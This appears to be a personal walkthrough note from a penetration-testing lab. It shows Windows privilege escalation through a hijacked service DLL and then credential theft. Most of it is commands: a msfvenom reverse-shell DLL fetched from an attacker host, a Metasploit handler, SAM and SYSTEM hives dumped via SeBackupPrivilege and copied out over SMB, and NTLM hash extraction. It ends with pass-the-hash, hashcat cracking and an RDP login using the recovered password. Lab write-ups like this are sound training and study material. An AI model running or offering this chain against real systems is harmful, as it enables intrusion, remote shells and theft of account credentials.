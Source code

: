 Get a shell as the user that is running the service by exploiting the dll
```
>ms6
use exploit/multi/handler
set lhost 192.168.45.194
set lport 4444
set payload windows/x64/shell_reverse_tcp
run
```

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.181 LPORT=4444 -f dll -o EnterpriseServiceOptional.dll 
iwr -uri http://192.168.45.181/EnterpriseServiceOptional.dll -Outfile EnterpriseServiceOptional.dll
Restart-Service EnterpriseService
```

- this user has SeBackupPrivilege (whoami /priv) so we can use `ppykatz` to exploit
- note that mimikatz requires SeDebug which this user does not have
- copy sam files to temp dir so we can download them to kali
- https://www.hackingarticles.in/windows-privilege-escalation-sebackupprivilege/
```
cd c:\
mkdir Temp
reg save hklm\sam c:\Temp\sam
reg save hklm\system c:\Temp\system
impacket-smbserver -smb2support smb smb
net use \\192.168.45.181\smb
copy \Temp\sam \\192.168.45.181\smb
copy \Temp\system \\192.168.45.181\smb
```

with the sam and system files we can extract the hashes
```
pypykatz registry --sam sam system
```

winrm doesn't seem to work. had to crack the hash and that worked
```
evil-winrm -i 192.168.234.222 -u enterpriseadmin -H "d94267c350fc02154f2aff04d384b354"
hashcat -m 1000 enterpriseadmin.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
S3cureStore 

xfreerdp /u:enterpriseadmin /p:S3cureStore /v:192.168.234.222 /w:1200 /h:700
```
